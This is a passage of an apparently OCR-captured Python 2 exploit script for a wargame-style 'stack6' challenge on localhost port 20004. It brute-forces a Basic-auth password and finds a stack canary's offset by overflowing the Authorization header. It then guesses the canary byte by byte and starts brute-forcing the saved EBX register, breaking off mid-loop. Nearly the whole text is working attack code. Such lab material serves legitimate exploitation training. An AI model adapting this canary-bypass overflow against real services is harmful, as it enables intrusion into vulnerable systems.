 ```lang-bash line-numbers 
		#print(password)
		i += 1

print("[+] Bruteforcing password ...")
passwd = bruteforce()

print("[+] Validating password ...")
credentials = base64.b64encode("stack6:{0}".format(passwd))
s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 20004))
request = "GET / HTTP/1.0\r\n"
request += "Authorization: Basic {0}\r\n".format(credentials)
request += "\n"
s.send(request)
response = s.recv(1024)
print("[+] Server response " + response.replace("\n",""))
s.close()

canary_offset = 2000
print("[+] Searching Canary offset. Starting with {0} ...".format(canary_offset))
while True:
	s = socket(AF_INET, SOCK_STREAM)
	s.connect(("localhost", 20004))
	credentials = base64.b64encode("stack6:{0}".format(passwd + "A"*canary_offset))
	request = "GET / HTTP/1.0\r\n"
	request += "Authorization: Basic {0}\r\n".format(credentials)
	request += "\n"
	s.send(request)
	response = s.recv(1024)
	s.close()
	if "smashing" in response:
		print("[+] Server response " + response.replace("\n", ""))
		print("[+] Canary offset: " + str(canary_offset))
		canary_offset -= 1
		break
	canary_offset += 1

print("[+] Bruteforcing Canary ...")
canary = ""
for byte in xrange(4):
	for canary_byte in xrange(256):
		hex_byte = chr(canary_byte)
		#print("[+] Trying: {0}{1}".format(canary.encode("hex"), hex_byte.encode("hex")))
		credentials = base64.b64encode("stack6:{0}".format(passwd + "A"*canary_offset + canary + hex_byte))
		s = socket(AF_INET, SOCK_STREAM)
		s.connect(("localhost", 20004))
		request = "GET / HTTP/1.0\r\n"
		request += "Authorization: Basic {0}\r\n".format(credentials)
		request += "\n"
		s.send(request)
		response = s.recv(1024)
		s.close()
		if "smashing" not in response:
			canary += hex_byte
			print("[+] Found canary byte: " + hex(canary_byte))
			break
print("[+] Canary found: " + canary.encode("hex"))

print("[+] Bruteforcing EBX ...")
ebx = ""
for byte in xrange(4):
	for ebx_byte in xrange(256):
```